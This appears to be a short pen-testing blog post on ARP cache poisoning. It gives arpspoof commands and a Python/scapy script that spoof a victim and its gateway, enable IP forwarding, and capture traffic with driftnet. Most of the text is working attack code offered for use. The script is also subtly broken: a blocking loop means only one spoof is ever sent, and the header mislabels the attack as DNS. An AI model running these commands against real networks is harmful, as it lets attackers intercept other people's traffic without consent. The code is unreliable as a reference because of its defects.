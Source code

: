 ```yaml
---
title: 'Penetration Testing : 流量捕获之APR缓存攻击'
date: 2019-11-25 22:24:22
tags: [Penetration Testing,Kali Linux,Python]
---
```



### intro
```python
# author: huangyuhui
# date: november 25,2019
# envir: 5.2.0-kali2
# desc: the detailed steps and the simple codes about the dns attack
# repo address: https://github.com/yubuntu0109/penetration-testing-learning
```


### ARP MitM attack with the tool of arpspoof
```python
'''
>> scan the targete ip
nmap -sP 192.168.xxx.*

>> spoofing the target host: disguised as the gateway,the real identity is attacker
arpspoof -i wlan0 -t 192.168.xxx.xxx(targetIP) 192.168.xxx.xxx(gateway)

>> spoofing the gateway: disguised as the targetIP, the real identity is attacker
arpspoof -i wlan0 -t 192.168.xxx.xxx(gatewayIP) 192.168.xxx.xxx(targetIP)

>> traffic forwarding: forward the data package to the gateway
echo 1 >/proc/sys/net/ipv4/ip_forward
'''
```


### ARP Man-in-the-middle attack with python
```python
import sys
import time
import optparse
import subprocess
from scapy.all import sendp, ARP, Ether


def main():

	''' init the parameters '''
	parser = optparse.OptionParser("usage: %prog -v <victimIP> -g <gatewayIP>")
	parser.add_option('-v', dest='victimIP', type='string', help='the specified targate ip')
	parser.add_option('-g', dest='gatewayIP', type='string', help='the specified gateway ip')
	(options, args) = parser.parse_args()
	if (options.victimIP == None) | (options.gatewayIP == None):
		print parser.usage
		exit(0)
	else:
		victimIP = options.victimIP
		gatewayIP = options.gatewayIP

	''' MitM attack '''
	try:
		attackGateway = Ether()/ARP(psrc=victimIP, pdst=gatewayIP)
		attackTarget = Ether()/ARP(psrc=gatewayIP, pdst=victimIP)
		print '[ok]:MitM attack is running'
		sendp(attackGateway, inter=1, loop=1)  # send the data package to the target host circularly
		sendp(attackTarget, inter=1, loop=1)  # send the data package to the gateway circularly
	except:  # except optparser.TypeError as e:
		pass  # print 'error:please enter the correct parameters'

# traffic forwarding
n = subprocess.call('echo 1 >> /proc/sys/net/ipv4/ip_forward', shell=True)
print(("[x]:the traffic forwarding hasn't opened","[ok]:the traffic forwarding has opened")[n==0])


# run: python arpspoofing.py -v <victim ip> -g <gateway ip>
# test: see the effects by the tool of driftnet : driftnet -v -b -i wlan0(interface name)
if __name__ == '__main__':
	main()
```


### moments
*😅 a simple arp spoofing~*

![ ](Penetration-Testing-流量捕获之APR缓存攻击/penetration-testing_moments_arp-spoofing.png)


### recommended tools
* kickthemout : https://github.com/k4m4/kickthemout
* arpspoof : https://github.com/byt3bl33d3r/arpspoof
* Python ARP Poisoner : https://github.com/Sha2ow-M4st3r/PAPoisoner
